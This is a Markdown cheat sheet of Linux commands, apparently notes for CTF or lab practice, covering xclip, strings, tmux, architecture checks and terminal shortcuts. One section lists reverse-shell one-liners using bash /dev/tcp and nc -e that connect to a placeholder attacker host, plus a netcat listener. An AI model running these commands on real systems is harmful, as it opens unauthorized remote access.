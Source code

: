 # Useful commands and tools on Linux

## xclip

### Install

- `sudo apt install xclip`

### Use

xclip is a tool that can allow you to get any output in you clipboard.  
Let's say you have a big input to copy and do not want to mess up with the mouse, you can use xclip.
- `cat myverybigfile | xclip -sel clipboard` will send the content of myverybigfile to the clipboard

## Strings

Strings will print human readable chars of a file. And for a CTF if we are looking for a specific string we can pipe it to grep
- `strings -e l file | grep -i FLAG` the `-e l` will select the encoding l is for 16-bit littleendian
- `strings file` is the basic use of the command

## TMUX

"tmux is a terminal multiplexer. It lets you switch easily between several programs in one terminal, detach them (they keep running in the background) and reattach them to a different terminal." Learn more about [tmux](https://github.com/tmux/tmux/wiki).

- `tmux new -s sessionName` create an join a new session
- `ctrl+b d` detach a session
- `tmux ls` list existing sessions
- `ctrl+b x` kill current session
- `tmux a -t sessionName` or `tmux a -t sessionId` join an existing session
- `tmux  ctrl+b pageup` to scroll and `q` to leave scroll mode

## Which architecture

- `lscpu` will tell you if you are 32 or 64
- `uname -m` similar but less verbose

## Useful shortcuts to use the terminal quickly

- `Ctrl+U` - clear all the current line from the end to the beginning only if the cursor is at the end of the line.
- `Ctrl+Y` - recall the cleared line 
- `Ctrl+K` - clear all the current line from the beginning to the end only if the cursor is at the beginning of the line.
- `Ctrl+W` - clear the previous word in the current line. For example if you have typed a command like `git diff /path/to/some/file` and you want to delete just the last parameter to the command, Ctrl+W is very useful.
- `Ctrl+E Ctrl+U` - move the cursor to the end of the line and clear all the current line from the end to the beginning.
- `Ctrl+A Ctrl+K` - move the cursor at the beginning of the line and clear all the current line from the beginning to the end.
- `Ctrl+C` - cancel the current command line, which implies clear all the current line no matter where the cursor is. (you can't recall the cleared line anymore).
- `Alt+Shift+#` - comment the current line, keep it in the history and bring up your prompt on a new line.
- `Ctrl+Shit+C` - copy something you previously selected
- `Ctrl+Shit+V` - paste something
- `Home` - Go to the begining of your prompt 
- `End` - Go to the end of your prompt

## Launch shells from a terminal

- Say we have a way through root and we need to get a reverse shell here are helpfuls command
  - `/bin/bash -i >& /dev/tcp/IP-OF-YOUR-KALI/4444 0>&1`
  - `nc IP-OF-YOUR-KALI 4444 –e /bin/bash`
  - `nc IP-OF-YOUR-KALI 4444 –e /bin/sh`
- *Note: We have to set a listener prior to this with `rlwrap nc -lvp 4444`*

## Explainshell.com

- [This website](https://explainshell.com/) is relly helpful to understand what a specific linux command does. Here is an example with `rm -rf file`  
![image](https://user-images.githubusercontent.com/96747355/175054655-9a49193f-38a3-4cc7-92dc-e1d6f716aaab.png)


## Resources

{% embed url="https://askubuntu.com/questions/470966/shortcut-to-clear-command-line-terminal" %} Shortcut to clear command line terminal {% endembed %}
